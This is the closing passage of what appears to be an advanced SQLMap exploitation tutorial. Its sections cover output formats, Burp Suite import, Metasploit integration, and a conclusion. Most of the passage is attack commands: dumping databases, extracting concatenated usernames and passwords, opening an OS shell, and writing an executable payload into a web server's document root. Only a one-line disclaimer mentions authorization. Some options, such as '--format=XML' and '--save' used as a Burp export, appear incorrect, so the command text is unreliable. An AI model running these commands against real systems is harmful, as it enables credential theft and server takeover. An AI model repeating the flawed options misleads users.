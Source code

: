 #### Custom Output Formats
```bash
# XML output
sqlmap -u "http://target.com/page.php?id=1" --dump --output-dir="/tmp/sqlmap" --format=XML

# CSV output
sqlmap -u "http://target.com/page.php?id=1" --dump --csv-del=";" --output-dir="/tmp/results"

# Custom queries with output
sqlmap -u "http://target.com/page.php?id=1" --sql-query="SELECT CONCAT(username,':',password) FROM users" --output-dir="/tmp/creds"
```

### Integration with Other Tools

#### Burp Suite Integration
```bash
# Import from Burp Suite
sqlmap -r burp_request.txt --batch --level=3

# Export to Burp Suite
sqlmap -u "http://target.com/page.php?id=1" --save="burp_import.txt"
```

#### Metasploit Integration
```bash
# Generate Metasploit payload
sqlmap -u "http://target.com/page.php?id=1" --os-shell --msf-path="/opt/metasploit-framework"

# Custom payload delivery
sqlmap -u "http://target.com/page.php?id=1" --file-write="/tmp/payload.exe" --file-dest="/var/www/html/payload.exe"
```

## Conclusion

These advanced SQLMap techniques provide sophisticated methods for:

- **Second-order injection exploitation**
- **WebSocket and DNS-based attacks**
- **Advanced WAF bypass techniques**
- **Database-specific exploitation methods**
- **NoSQL injection techniques**
- **Performance optimization strategies**
- **Integration with other security tools**

These techniques represent the cutting edge of SQL injection exploitation and should be used responsibly in authorized penetration testing scenarios.

Remember: Advanced techniques require deep understanding of both the tool and the target environment.
